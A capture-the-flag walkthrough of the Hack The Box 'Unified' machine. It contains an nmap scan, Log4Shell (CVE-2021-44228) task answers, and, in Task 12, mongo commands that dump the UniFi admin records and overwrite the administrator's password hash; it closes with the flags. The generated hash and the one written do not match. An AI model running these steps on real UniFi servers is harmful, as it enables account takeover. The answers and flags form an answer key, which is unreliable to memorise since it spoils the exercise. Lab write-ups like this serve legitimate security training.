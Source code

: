 # Unified

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.96.149 -oA Unified
```

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.96.149 -oA Unified
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 04:39 EDT
<snip>
Discovered open port 8080/tcp on 10.129.96.149
Discovered open port 22/tcp on 10.129.96.149
Discovered open port 8443/tcp on 10.129.96.149
Discovered open port 6789/tcp on 10.129.96.149
Completed SYN Stealth Scan at 04:39, 1.56s elapsed (1000 total ports)
Initiating Service scan at 04:39
Scanning 4 services on 10.129.96.149
Completed Service scan at 04:42, 156.77s elapsed (4 services on 1 host)
NSE: Script scanning 10.129.96.149.
Initiating NSE at 04:42
Completed NSE at 04:42, 14.31s elapsed
Initiating NSE at 04:42
Completed NSE at 04:42, 1.08s elapsed
Initiating NSE at 04:42
Completed NSE at 04:42, 0.00s elapsed
Nmap scan report for 10.129.96.149
Host is up (0.020s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Thu, 26 Oct 2023 08:39:50 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Thu, 26 Oct 2023 08:39:50 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 26 Oct 2023 08:39:50 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-30T21:37:24
| Not valid after:  2024-04-03T21:37:24
| MD5:   e6be:8c03:5e12:6827:d1fe:612d:dc76:a919
|_SHA-1: 111b:aa11:9cca:4401:7cec:6e03:dc45:5cfe:65f6:d829
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<snip>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 1

Which are the first four open ports?

Answer: 22,6789,8080,8443

## Task 2

What is the title of the software that is running running on port 8443?

Answer: UniFi Network

## Task 3

What is the version of the software that is running?

<figure><img src="../../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

Answer: 6.4.54

## Task 4

What is the CVE for the identified vulnerability?

<figure><img src="../../../.gitbook/assets/image (580).png" alt=""><figcaption></figcaption></figure>

Answer: CVE-2021-44228

## Task 5

What protocol does JNDI leverage in the injection?

<figure><img src="../../../.gitbook/assets/image (581).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (582).png" alt=""><figcaption></figcaption></figure>

Answer: ldap

## Task 6

What tool do we use to intercept the traffic, indicating the attack was successful?

Answer: tcpdump

## Task 7

What port do we need to inspect intercepted traffic for?

Answer: 389

## Task 8

What port is the MongoDB service running on?

<figure><img src="../../../.gitbook/assets/image (583).png" alt=""><figcaption></figcaption></figure>

Answer: 27117

## Task 9

What is the default database name for UniFi applications?

<figure><img src="../../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

Answer: ace

## Task 10

What is the function we use to enumerate users within the database in MongoDB?

Answer: db.admin.find()

## Task 11

What is the function we use to update users within the database in MongoDB?

Answer: db.admin.update()

## Task 12

What is the password for the root user? Grab admin PW from MongoDB

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../../.gitbook/assets/image (585).png" alt=""><figcaption></figcaption></figure>

Update admin password

```bash
mkpasswd -m sha-512 Password1234

$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XXM8P5Z8j4NB1gJGTONl1
```

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$ttw6pQsuECHKIDhO$zNY4cTuEmzd8kpQZHShWAIms1LpeEyH7NfcYXVpK3FN6mzwgKyf21T2208HS0jt4Ve.wSpifTfKbN4pcpqiL8/"}})'
```

<figure><img src="../../../.gitbook/assets/image (586).png" alt=""><figcaption></figcaption></figure>

Login with `administrator:Password1234`

<figure><img src="../../../.gitbook/assets/image (587).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (588).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

Answer: NotACrackablePassword4U2022

## Task 13

Submit User Flag

<figure><img src="../../../.gitbook/assets/image (590).png" alt=""><figcaption></figcaption></figure>

Answer: 6ced1a6a89e666c0620cdb10262ba127

## Task 14

Submit Root Flag

<figure><img src="../../../.gitbook/assets/image (591).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (592).png" alt=""><figcaption></figcaption></figure>

Answer: e50bc93c75b634e4b272d2f771c33681

